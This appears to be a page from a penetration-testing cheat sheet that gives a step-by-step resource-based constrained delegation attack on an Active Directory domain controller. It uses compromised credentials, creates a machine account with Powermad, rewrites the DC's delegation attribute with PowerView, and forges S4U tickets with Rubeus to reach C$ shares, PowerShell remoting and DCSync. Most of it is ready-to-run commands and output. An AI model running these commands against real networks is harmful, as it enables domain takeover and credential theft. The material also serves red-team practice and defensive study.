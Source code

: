 Define credentials for the compromised account with the necessary DACL:

```
PS > $userWithDaclUsername = 'megacorp.local\snovvcrash'
PS > $userWithDaclPassword = ConvertTo-SecureString 'Qwe123!@#' -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential($userWithDaclUsername, $userWithDaclPassword)
```

Add new machine account and configure RBCD (i.e., set `msDS-AllowedToActOnBehalfOfOtherIdentity` property to value of the new machine account SID) on the vulnerable host (DC01):

```
Powermad > New-MachineAccount -MachineAccount fakemachine1337 -Password $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) -Verbose
PowerView3 > $computerSID = Get-DomainComputer -Identity fakemachine1337 -Properties ObjectSid -Verbose -Credential $cred | select -Expand ObjectSid
PS > $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($computerSID))"
PS > $SDBytes = New-Object byte[] ($SD.BinaryLength)
PS > $SD.GetBinaryForm($SDBytes, 0)
PowerView3 > Get-DomainComputer DC01.megacorp.local -Verbose -Credential $cred | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity'=$SDBytes} -Verbose -Credential $cred
PS > .\Rubeus.exe hash /domain:megacorp.local /user:fakemachine1337$ /password:Passw0rd!
FC525C9683E8FE067095BA2DDC971889
```

Ask TGS for CIFS and also inject [other](https://adsecurity.org/?page_id=183) potentionally useful service names into the ticket (sname field [is not protected](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/) in TGS-REQ):

```
PS > .\Rubeus.exe s4u /domain:megacorp.local /user:fakemachine1337$ /rc4:FC525C9683E8FE067095BA2DDC971889 /impersonateuser:DC01$ /msdsspn:CIFS/DC01.megacorp.local /altservice:host,wsman,ldap,http /ptt
```

If the ticket cannot be imported or there's no access to corresponding services, troubleshoot it:

* Try impersonating different privileged users when requesting the ticket.
* Try using FQDN to NetBIOS under `/msdsspn` parameter (i.e., `CIFS/DC01.megacorp.local` → `CIFS/DC01`).

After the ticket has been successfully imported we can go for filesystem access (CIFS), powershell remoting (WSMAN), DCSync (LDAP) and so on:

```
PS > klist
// CIFS
PS > cd \\DC01.megacorp.local\c$
PS > ls
PS > c:
// WSMAN
PS > Enter-PSSession -ComputerName DC01.megacorp.local
PS > exit
// LDAP
PS > ...DCSync...
```
